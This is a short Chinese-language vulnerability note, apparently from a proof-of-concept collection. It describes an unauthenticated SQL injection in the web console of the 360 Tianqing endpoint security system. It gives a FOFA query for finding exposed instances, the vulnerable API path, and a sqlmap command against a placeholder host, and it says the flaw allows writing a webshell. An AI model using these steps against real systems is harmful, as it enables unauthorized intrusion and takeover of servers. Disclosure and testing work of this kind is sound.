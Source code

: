 ## 0x00 漏洞背景

        360天擎是一套终端安全管理系统，有客户端和Web端，漏洞出现在Web端，可以未授权访问的API，该API存在SQL注入漏洞，可导致直接写入Webshell
        
        FOFA语句 app="360天擎终端安全管理系统"
        
## 0x01 漏洞利用

        /api/dp/rptsvcsyncpoint?ccid=1
        
        
## 0x02 检测结果

        python sqlmap.py -u https://x.x.x.x:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL


        ![图片](https://user-images.githubusercontent.com/118274389/229656248-0c2810cf-81dd-4dba-b482-cb235d90c638.png)


